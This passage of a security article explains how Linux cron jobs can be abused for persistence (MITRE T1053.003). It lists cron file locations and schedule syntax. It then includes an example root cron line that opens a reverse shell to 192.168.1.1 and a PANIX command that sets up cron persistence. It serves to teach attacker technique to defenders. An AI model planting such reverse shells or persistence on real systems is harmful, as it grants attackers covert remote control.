 The scheduled task is called a cron job and can be executed with both user and root permissions, depending on the configuration. Due to its versatility, cron is an easy and stable candidate for Linux persistence, even without escalating to root privileges upon initial access. 

There are user-specific and system-wide cron jobs. The user-specific cron jobs commonly reside in:

* `/var/spool/cron/`
* `/var/spool/cron/crontabs/`

The system-wide cron jobs are located in the following:

* `/etc/crontab`
* `/etc/cron.d/`
* `/etc/cron.daily/`
* `/etc/cron.hourly/`
* `/etc/cron.monthly/`
* `/etc/cron.weekly/`

The cron file syntax slightly differs based on the location in which the cron file is created. For the cron files in the `/etc/` directory, the user who will execute the job must be specified.

```
* * * * * root /bin/bash -c '/srv/backup_tool.sh'
```

Conversely, the user who created the cron files in the `/var/spool/cron/crontabs/` directory will execute the cron files.

```
* * * * * /bin/bash -c '/srv/backup_tool.sh'
```

The asterisks are used to create the schedule. They represent (in order) minutes, hours, days (of the month), months, and days (of the week). Setting “`* * * * *`” means the cron job is executed every minute while setting “`* * 1 12 *`”` `means the cron job is executed every minute on the first day of December. Information on cron scheduling is available at [Crontab Guru](https://crontab.guru/).

Attackers can exploit these jobs to run scripts or binaries that establish reverse connections or add reverse shell commands.

```
* * * * * root /bin/bash -c 'sh -i >& /dev/tcp/192.168.1.1/1337 0>&1'
```

MITRE specifies more information and real-world examples related to this technique in [T1053.003](https://attack.mitre.org/techniques/T1053/003/).

#### Persistence through T1053.003 - cron

You can manually create a system-wide cron file in any of the `/etc/` directories or use the `crontab -e` command to create a user-specific cron file. To more easily illustrate all of the persistence mechanisms presented in these articles, we will use PANIX. Depending on the privileges when running it, you can establish persistence like so:

```
sudo ./panix.sh --cron --default --ip 192.168.1.1 --port 2001
[+] Cron job persistence established.
```
